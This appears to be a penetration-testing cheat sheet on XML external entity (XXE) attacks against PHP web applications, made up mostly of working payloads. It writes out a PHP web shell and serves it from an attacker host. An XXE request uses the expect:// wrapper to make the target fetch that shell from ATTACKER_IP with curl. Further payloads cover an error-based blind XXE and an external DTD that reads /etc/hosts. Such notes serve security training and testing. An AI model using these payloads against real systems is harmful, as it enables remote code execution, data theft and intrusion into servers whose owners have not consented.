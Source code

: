 ## Remote Code Execution
### PHP 
This method requires the PHP `expect` module to be installed and enabled.
* Attacker host
``` bash
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```
* Send the request with payload
``` HTTP
POST /submitDetails.php HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
<!ENTITY email SYSTEM "expect://curl$IFS-O$IFS'ATTACKER_IP/shell.php'">]>
<root>
	<name>a</name>
	<tel>1</tel>
	<email>&email;</email>
	<message>123</message>
</root>
```
---
## Blind XXE
### Error Based XXE
If the web application displays runtime errors (e.g., PHP errors) and does not have proper exception handling for the XML input
- Request
``` HTTP
POST /error/submitDetails.php HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<root>
<name>a</name>
<tel>1</tel>
<email>&joined;</email>
<message>1</message>
</root>
```
- Response
``` HTTP
HTTP/1.1 200 OK

<br />
<b>Warning</b>:  DOMDocument::loadXML(): Entity 'joined' not defined in Entity, line: 5 in <b>/var/www/html/error/submitDetails.php</b> on line <b>11</b><br />
<br />
<b>Warning</b>:  simplexml_import_dom(): Invalid Nodetype to import in <b>/var/www/html/error/submitDetails.php</b>
[SNIP]....
Check your email for further instructions.
```
- The request we sent caused the web application to display an error, and it also revealed the web server directory, which we can use to read the source code of other files.
- Attack host
``` bash
cat > xxe.dtd
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
^C
python3 -m http.server 8000
```